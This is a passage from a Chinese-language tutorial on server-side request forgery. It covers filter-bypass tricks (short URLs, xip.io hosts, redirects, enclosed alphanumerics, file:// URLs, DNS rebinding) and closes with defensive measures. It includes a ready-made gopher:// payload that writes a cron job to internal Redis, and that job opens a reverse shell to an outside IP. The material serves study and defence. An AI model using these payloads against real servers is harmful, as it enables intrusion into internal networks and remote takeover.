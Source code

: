 (2)、由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，所以这里使用的是http://tinyurl.com所提供的短地址服务，如下图所示：
利用xip.io和xip.name
10.0.0.1.xip.io 10.0.0.1
www.10.0.0.1.xip.io 10.0.0.1
mysite.10.0.0.1.xip.io 10.0.0.1
foo.bar.10.0.0.1.xip.io 10.0.0.1
10.0.0.1.xip.name resolves to 10.0.0.1
www.10.0.0.2.xip.name resolves to 10.0.0.2
foo.10.0.0.3.xip.name resolves to 10.0.0.3
bar.baz.10.0.0.4.xip.name resolves to 10.0.0.4

(3)、自己写个服务接口，302跳转

### 利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com

### 通过各种非HTTP协议：
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

(1)、GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：

gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
(2)、File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容

### DNS Rebinding
对于常见的IP限制，后端服务器可能通过下图的流程进行IP过滤：

对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，我们可以进行DNS 重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

(1)、服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP

(2)、对于获得的IP进行判断，发现为非黑名单IP，则通过验证

(3)、服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。

(4)、由于已经绕过验证，所以服务器端返回访问内网资源的结果。


## 防御
1、过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。2,、统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
3、限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4、黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。
5、禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
